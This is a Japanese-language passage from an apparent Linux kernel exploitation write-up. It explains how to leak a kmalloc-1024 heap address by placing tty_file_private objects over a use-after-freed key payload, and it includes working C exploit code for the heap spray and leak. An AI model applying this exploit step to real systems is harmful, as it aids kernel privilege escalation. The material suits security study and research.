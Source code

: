 ```drivers/tty/pty.c
    struct tty_file_private *priv = file->private_data;

    priv->tty = tty;
    priv->file = file;
    ...
}
```

ここで、`tty_alloc_file()`は`/dev/ptmx`の`struct file`の`private_data`メンバに対して`struct tty_file_private`を確保して入れます。これは`kmalloc-32`から確保されます。その後、`tty_init_dev()`で`struct tty_struct`を`kmalloc-1024`から確保します。そして、`tty_add_file()`で`struct tty_file_private`内に`struct tty_struct`のアドレスを格納します。つまり、`kmalloc-32`内の`tty_file_private`をleakすることで`kmalloc-1024`のアドレスをleakすることができます。

```leak_heap.c
  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) {
      if (keyctl_revoke(keys[ix]) != 0) errExit("keyctl_revoke");
      if (keyctl_unlink(keys[ix], KEY_SPEC_PROCESS_KEYRING) != 0) errExit("keyctl_unlink");
    }
  }

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if (open("/dev/ptmx", O_RDWR) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  if(keyctl_read(uafed_key, keybuf, 0x5000) <= 0) errExit("keyctl_read");
  ulong km1024_leaked = 0;
  ulong *tmp = (ulong*)keybuf + 1;
  for (int ix = 0; ix != 0x4330/8 - 2 - 1; ++ix) {
    if ((tmp[ix] >> (64-4*4)) == 0xFFFF && tmp[ix+2] == tmp[ix+3] && tmp[ix+2] != 0 && (tmp[ix] & 0xFF) == 0x00) { // list_head's next and prev are same
      km1024_leaked = tmp[ix];
      printf("[!] \t+0: 0x%lx (tty)\n", tmp[ix]);
      printf("[!] \t+1: 0x%lx (*file)\n", tmp[ix + 1]);
      printf("[!] \t+2: 0x%lx (list_head.next)\n", tmp[ix + 2]);
      printf("[!] \t+3: 0x%lx (list_head.prev)\n", tmp[ix + 3]);
      break;
    }
  }
  if (km1024_leaked == 0) errExit("Failed to leak kmalloc-1024");
  printf("[!] leaked kmalloc-1024: 0x%lx\n", km1024_leaked);
```

![kheap leak success...?](./not-success.png)
